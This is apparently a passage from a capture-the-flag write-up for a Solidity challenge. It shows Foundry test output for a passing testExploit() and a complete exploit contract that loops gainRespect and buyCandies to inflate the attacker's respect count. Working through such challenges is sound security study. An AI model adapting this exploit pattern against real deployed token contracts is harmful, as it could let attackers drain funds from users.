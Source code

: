 ```
# forge test --match-path test/test.t.sol -vv
[⠘] Compiling...
No files changed, compilation skipped

Running 1 test for test/test.t.sol:infiniteTest
[PASS] testExploit() (gas: 570661)
Logs:
  attacker candy : 10
  attacker respect : 0
  attacker respectCount : 0
  
  attacker candy : 10
  attacker respect : 0
  attacker respectCount : 50

Test result: ok. 1 passed; 0 failed; finished in 4.30ms
```

It works, so I will write an exploit contract and do it on the actual remote instance

### exploit.sol :

```solidity
pragma solidity ^0.8.0;

import "./Setup.sol";

contract infiniteExploit {
    Setup public setupContract;
    crewToken public CREW;
    respectToken public RESPECT;
    candyToken public CANDY;
    fancyStore public STORE;
    localGang public GANG;
    
    function exploit(address setupAddr) public {
        setupContract = Setup(setupAddr);
        CREW = setupContract.CREW();
        RESPECT = setupContract.RESPECT();
        CANDY = setupContract.CANDY();
        STORE = setupContract.STORE();
        GANG = setupContract.GANG();
        
        CREW.mint();
        CREW.approve(address(STORE), 1);
        STORE.verification();
        CANDY.approve(address(GANG), type(uint256).max);
        RESPECT.approve(address(STORE), type(uint256).max);
        
        for(uint256 i; i < 5; ++i){
            GANG.gainRespect(10);
            STORE.buyCandies(10);
        }
    }
}
```
